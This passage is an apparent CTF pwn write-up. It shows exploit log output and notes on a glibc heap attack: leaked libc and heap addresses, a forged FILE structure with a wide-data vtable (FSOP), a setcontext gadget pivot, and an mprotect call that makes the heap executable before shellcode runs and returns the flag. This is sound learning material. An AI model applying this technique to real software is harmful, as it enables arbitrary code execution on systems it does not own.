

 

```py
[*] '/home/satwik/CTFstuff/chall2/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
[+] Libc Base: 0x7f9f61200000
[+] Heap Base: 0x555958007000
context set to: 0x7f9f6124a99d
mprotect at: 0x7f9f61325c10
[*] Sending FSOP Payload (Size: 0x305)
[*] Shellcode Location: 0x55595800d390
[*] Base (User Data): 0x55595800d0c0
[*] FILE Header     : 0x55595800d0b0

[FILE Structure Constraints]
  User+0x18 (_IO_write_ptr) : 0x7f9f6124a99d 
  User+0x78 (_lock)         : 0x55595800d0c0
  User+0x90 (_wide_data)    : 0x55595800d1c0
  User+0xc8 (vtable)        : 0x7f9f61402228

Wide Data Structure at 0x55595800d1c0
  Offset 0xe0 (wide_vtable) : 0x55595800d2b8

[Wide Vtable at 0x55595800d2b8]
  Offset 0x68 (Jump Target) : 0x7f9f613303d5 (mov rdx, rax; call qword ptr [rbx + 0x28])
libc sym['_IO_list_all']:
0x7f9f614044c0
[*] wdoallocbuf address: 0x7f9f6128ae70
[*] Switching to interactive mode
```

- - logging added to make the reader understand better, generally/ideally we should be living inside pwndbg.

- so when 0x1f8 + 0x68 runs, look at rbx value, it pts to chunk9_user - 0x10 which is the chunk9 header.
- so when rdx <- rax runs then the the call rbx + 0x28 pts to chunk9_user which is chunk9 + 0x10.
- so if we place a setcontext gadget there, we can call set context and set any of the registers we want except rdi which is already occupied by the rdx call gadget.
- so we set rsp to a space in the heap and set rip to pop rdi; ret gadget and set up rdi, rsi, rdx for mprotect call to make the heap executable and then jump to our shellcode.


# some useful screenshots from gdb

Entry into set context






mprotect call with register states



```
rax = 10
rdx = 7
rdi = heap base
rsi = 0x10000
```

- thus mprotect is called successfully and makes the heap executable.

- after the mprotect call, ret is called so it returns to the next gadget which is the shellcode location on the heap.




## Flag test



- after the shellcode runs we get the flag.


`stp_test{this_one_is_gonna_be_tough}`


# Resources

https://4xura.com/writeups-for-ctfs/pwn-travelgraph/

https://4xura.com/binex/large-bin-attack/

https://wiimdy.medium.com/how2heap-unsorted-bin-attack-16563985d80b

https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/heap_overview/


https://blog.1nf1n1ty.team/hacktricks/binary-exploitation/libc-heap/bins-and-memory-allocations

https://4xura.com/binex/orw-open-read-write-pwn-a-sandbox-using-magic-gadgets/#toc-head-9


# Offsets for setcontext+61



# side note - 
ive had people steal my solve and blog abt them. blogging to learn is fine but atleast credit the hours i put into the solve.